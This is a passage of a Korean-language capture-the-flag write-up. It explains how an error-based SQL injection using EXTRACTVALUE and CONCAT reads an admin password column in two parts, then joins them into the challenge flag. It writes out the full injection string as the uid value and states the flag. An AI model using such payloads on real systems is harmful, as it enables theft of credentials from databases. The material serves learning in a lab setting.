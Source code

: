 2. 플래그의 길이가 길어서 뒷부분이 잘려서 나오기 때문에 플래그의 뒷부분을 보기 위해서 XPATH 식에 삽입된 서브쿼리(SELECT 문)을 약간 수정하여 다시 공격을 수행함
    - 수정된 CONCAT의 서브쿼리: ```SELECT substr(upw, 20, 25) FROM user WHERE uid='admin'```
    - 쿼리 실행을 위해 입력해야 하는 uid 인자값: ```1' AND EXTRACTVALUE(1, CONCAT(0x3a, (SELECT substr(upw, 20, 25) FROM user WHERE uid='admin')));--```
    - 실행 결과
        <img width="1029" alt="exploit2" src="https://github.com/augustf86/Today_I_Learn/assets/122844932/90fc0bf1-b037-4942-a9a3-a4682a6dbb54">


3. 두 개의 결과를 합하면 플래그(```DH{c3968c78840750168774ad951fc98bf788563c4d}```)를 획득할 수 있음

